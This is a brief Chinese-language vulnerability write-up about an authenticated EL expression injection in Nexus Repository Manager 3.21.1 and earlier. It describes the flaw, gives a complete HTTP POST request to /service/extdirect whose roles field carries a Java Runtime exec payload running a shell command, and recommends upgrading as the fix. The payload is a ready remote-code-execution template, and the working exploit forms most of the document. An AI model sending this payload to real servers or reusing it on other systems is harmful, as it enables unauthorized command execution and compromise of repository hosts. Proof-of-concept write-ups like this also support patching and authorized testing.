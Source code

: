 ### 一 漏洞描述
Nexus 是一个 Maven 的仓库管理系统，它提供了强大的仓库管理、构件搜索等功能，并且可以用来搭建 Maven 仓库私服，在代理远程仓库的同时维护本地仓库，以节省带宽和时间。  

此漏洞涉及到的接口为/service/extdirect，接口需要管理员账户权限进行访问。  
该接口中处理请求时的UserComponent对象的注解的校验中使用EL引擎渲染，可以在访问接口时发送精心构造的恶意JSON数据，造成EL表达式注入进而远程执行任意命令。

Nexus Repository Manager OSS/PRo <=3.21.1

### 二 漏洞利用
该漏洞需要管理员账号身份，登录后，复制当前Cookie和CSRF Token
```
POST /service/extdirect HTTP/1.1
Host: 192.168.0.142:8081
Content-Length: 223
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.6813274455108288
Content-Type: application/json
Accept: */*
Origin: http://192.168.0.142:8081
Referer: http://192.168.0.142:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: 278d086ce087c25389bba6fecb03d8a9=3f769ae53838e13e44a4ee0a5fe70526; NX-ANTI-CSRF-TOKEN=0.6813274455108288; NXSESSIONID=5337e2ee-1fd7-4a7f-9386-4b24280fb268
Connection: close

{"action":"coreui_User","method":"update","data":[{"userId":"admin","version":"2","firstName":"admin","lastName":"User","email":"admin@example.org","status":"active","roles":["nxadmin$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/success')}],"type":"rpc","tid":11}
```
### 三 漏洞修复
升级

> 参考链接  
> https://blog.csdn.net/weixin_44508748/article/details/109897749
